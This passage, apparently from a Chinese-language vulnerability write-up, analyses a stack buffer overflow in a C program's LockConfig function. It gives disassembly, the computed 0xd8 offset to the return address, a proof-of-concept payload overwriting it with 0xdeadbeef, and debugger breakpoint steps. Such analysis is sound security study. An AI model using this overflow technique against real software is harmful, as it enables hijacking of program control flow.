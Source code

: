 ```c
 ......

	if(!(done_lockconfig=LockConfig(cfg))) // 这里也有LockConfig，cfg参数攻击者指定
	{
		printf("Failed to lock configuration file %s\n",cfg);
		CleanUp(OS_EXIT_ERROR);
	}

```

从反汇编可以观察到buf数组到保存的rbp距离为0xd4，那么到返回地址的距离就是0xd8

```bash
text:0804A913 ; bool __cdecl LockConfig(char *file)
.text:0804A913                 public LockConfig
.text:0804A913 LockConfig      proc near               ; CODE XREF: main+1CE↓p
.text:0804A913                                         ; main+264↓p
.text:0804A913
.text:0804A913 buf             = byte ptr -0D4h
.text:0804A913 fp              = dword ptr -0Ch
.text:0804A913 file            = dword ptr  8
.text:0804A913
.text:0804A913 ; __unwind {
.text:0804A913                 endbr32
.text:0804A917                 push    ebp
.text:0804A918                 mov     ebp, esp
.text:0804A91A                 push    edi
.text:0804A91B                 push    ebx
.text:0804A91C                 sub     esp, 0D0h
.text:0804A922                 call    __x86_get_pc_thunk_bx
.text:0804A927                 add     ebx, (offset _GLOBAL_OFFSET_TABLE_ - $)
.text:0804A92D                 sub     esp, 8
.text:0804A930                 push    [ebp+file]      ; src
.text:0804A933                 lea     eax, [ebp+buf]
.text:0804A939                 push    eax             ; dest
```

攻击者构造如下启动命令就能造成返回地址覆盖为0xdeadbeef

```bash
payload = b'\x90' * 0xd8 + p32(0xdeadbeef)
```

# 关键状态调试

## x86下的调试

断点位置选0x804AA19，也就是LockConfig函数ret之前                 

```bash
.text:0804AA13
.text:0804AA13 loc_804AA13:                            ; CODE XREF: LockConfig+95↑j
.text:0804AA13                                         ; LockConfig+EB↑j
.text:0804AA13                 lea     esp, [ebp-8]
.text:0804AA16                 pop     ebx
.text:0804AA17                 pop     edi
.text:0804AA18                 pop     ebp
.text:0804AA19                 retn
.text:0804AA19 ; } // starts at 804A913
.text:0804AA19 LockConfig      endp
.text:0804AA19
```
